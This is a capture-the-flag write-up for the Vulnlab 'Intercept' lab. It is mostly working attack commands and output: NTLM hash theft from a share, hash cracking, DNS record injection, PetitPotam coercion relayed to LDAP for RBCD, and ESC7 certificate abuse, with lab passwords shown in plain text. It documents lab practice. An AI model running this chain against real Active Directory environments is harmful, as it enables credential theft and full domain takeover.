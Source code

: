 ```yaml
---
title: Vulnlab-Intercept
date: 2024-07-12 02:07:00 +/-TTTT
categories: [Active-Directory]
tags: [ntlm_theft, Ldap-Signing-Not-Enforced!, ntlmrelayx, dnstool, petitpotam, ESC7]     # TAG names should always be lowercase
---
```


![alt text](../assets/images/intercept_slide.png)
# Initial enumeration

## Nmap Scan

    10.10.192.213(dc01)
    53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
    88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-07-09 18:39:35Z)
    135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds? syn-ack ttl 127
    464/tcp  open  kpasswd5?     syn-ack ttl 127
    593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intercept.vl0., Site: Default-First-Site-Name)
    3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services

    10.10.192.214(ws01)

    135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
    139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
    445/tcp  open  microsoft-ds? syn-ack ttl 127
    3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services

Since we don't have any credentials, we could try to log in as the guest account. In this case, the account seems to be enabled on WS01, but not on the DC.

![alt text](../assets/images/Screenshot_2024-07-12_18_19_22.png)

Since we have WRITE privileges over this share, and we know that developers usually check it regularly, we could abuse [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) and try to got ntlm hash here.
## ntlm theft


    ➜  ntlm_theft git:(master) python3 ntlm_theft.py --generate all --server 10.8.2.152 --filename osman

Let's pop it into hashcat and see if it cracks.



![alt text](../assets/images/Screenshot_2024-07-12_18_26_06.png)

    ➜  intercept hashcat -m 5600 hash1 /usr/share/wordlists/rockyou.txt 
    Dictionary cache hit:
    Filename..: /usr/share/wordlists/rockyou.txt
    Passwords.: 14344385
    Bytes.....: 139921507
    Keyspace..: 14344385

    KATHRYN.SPENCER::INTERCEPT:4f9b7ec78c7742f7:0a0bba672a19d3ac07eabfbcbca55cc7:010100000000000000[snip]000000000000000000:<redacted>

Let's think, how could we take over WS01? We are not a local admin and we cannot RDP… Coerce attacks are a real nuisance nowadays, however, SMB signing is enforced on the Domain Controller, this completely mitigates any SMB -> SMB or SMB -> LDAP relaying to the DC.

However, since this is a workstation, all Windows 10 machines come pre-installed with the WebClient service, it may not be active by default, but there are ways to trigger it. If WebClient was running on that computer, somehow coercing the computer account to authenticate back to us via WebDav, could allow us relaying from HTTP -> LDAP, even if SMB signing is enabled, but we would also need LDAP signing to not be enforced. Let’s check it out.
## Ldap Signing Not Enforced!
We can use crackmappexec's webdav and ldap-checker modules to verify it, and it looks like the WebClient is running!

    ➜  intercept crackmapexec ldap 10.10.192.213 -u Kathryn.Spencer -p <redacted>  -M ldap-checker 
    SMB         10.10.192.213   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
    LDAP        10.10.192.213   389    DC01             [+] intercept.vl\Kathryn.Spencer:Chocolate1 
    LDAP-CHE... 10.10.192.213   389    DC01             LDAP Signing NOT Enforced!
    LDAP-CHE... 10.10.192.213   389    DC01             Channel Binding is set to "NEVER" - Time to PWN!

And LDAP Signing is NOT Enforced!

U may wanna check [this](https://medium.com/@njoffsec/bypassing-ldap-channel-binding-when-ldap-signing-is-not-enforced-f6093bab5a67) for time to PWN! but i will use my blog after that.

U can find dnstool.py file [here](https://github.com/dirkjanm/krbrelayx)

    ➜ krbrelayx git:(master) python3 dnstool.py -u 'intercept.vl\Kathryn.Spencer' -p <redacted> --tcp -a add -t A -d 10.8.2.152 -r WS02.intercept.vl 10.10.192.213
    [-] Connecting to host...
    [-] Binding to host
    [+] Bind OK
    [-] Adding new record
    [+] LDAP operation completed successfully

This will create the WS02.intercept.vl record and point it to our IP address. Note you have to use the FQDN (Fully Qualified Domain Name) when creating the DNS record.

U can find ntlmrelayx on impacket tools

    ➜  examples git:(master) ✗ ntlmrelayx.py -t ldap://10.10.192.213/ --delegate-access
    Impacket v0.12.0.dev1+20240626.193148.f827c8c7 - Copyright 2023 Fortra

    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections

This will listen for incoming HTTP connections on port 80, then, once it receives an inbound authentication attempt, it will relay it to LDAP and perform RBCD as the machine account.

To coerce the machine account of WS01 to authenticate to us via HTTP, we will have to specify <HOSTNAME>@80/<whatever> as the target. It’s necessary to use the HOSTNAME and @80, otherwise authentication will not happen, this is why we needed to create a DNS record. I will use [PetitPotam](https://github.com/topotam/PetitPotam) for this, which will coerce WS01 back to us by using MS-EFSRPC’s EfsRpcEncryptFileSrv function.

  ➜  PetitPotam git:(master) ✗  python3 PetitPotam.py -u Kathryn.Spencer -p Chocolate1 -d intercept.vl 'WS02@80/newtest' ws01.intercept.vl

ntlmrelayx will receive and relay the authentication attempt to the DC using LDAP, it will create a random computer account with a random password and will set up RBCD from the created computer account to WS01, this way, we can impersonate any user on WS01 and take control over it.

    ➜  examples git:(master) ✗ ntlmrelayx.py -t ldap://10.10.192.213/ -smb2support --delegate-access
    [snip]
    [*] Adding new computer with username: HIKVFVEF$ and password: +/lQ2,O$R0(X6Ih result: OK
    [snip]

We are now able to request a TGS to any SPN we want while impersonating any user on that machine. In this case I will request a CIFS TGS (Ticket Granting Service) as the impersonated Administrator user.


    getST.py -spn CIFS/ws01.intercept.vl -impersonate Administrator -dc-ip 10.10.192.213 intercept.vl/'HIKVFVEF$':'+/lQ2,O$R0(X6Ih'

    smbclient.py -k -no-pass -dc-ip 10.10.192.213 ws01.intercept.vl

after those command we sav flag and got here creds:

    Simon.Bowen@intercept.vl:<readacted>

## ESC7 Attack in ADCS


Checking what Simon.Bowen’s privileges are in BloodHound, we see they have GenericAll over the CA-MANAGERS Group and OU, this allows us to add ourselves to the CA-MANAGERS group, also if we really can manage the CA being in that group, we can become DA.

![alt text](../assets/images/d2a2b6aa6afac9291ecc1c7f59bbd7f2.png)

U can use [this](https://github.com/ly4k/Certipy#esc7) directly

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -add-officer 'Simon.Bowen' -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -enable-template SubCA -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad req -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -ca 'INTERCEPT-DC01-CA' -dc-ip 10.10.192.213 -template SubCA -upn administrator@intercept.vl

    certipy-ad ca -ca 'INTERCEPT-DC01-CA' -issue-request 4 -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw'

    certipy-ad req -username Simon.Bowen@intercept.vl -password 'b0OI_fHO859+Aw' -ca 'INTERCEPT-DC01-CA' -dc-ip 10.10.192.213 -retrieve 4

it will give u administrator pfx and u can extract with this

    ➜  intercept certipy-ad auth -pfx administrator.pfx -username Administrator -domain intercept.vl

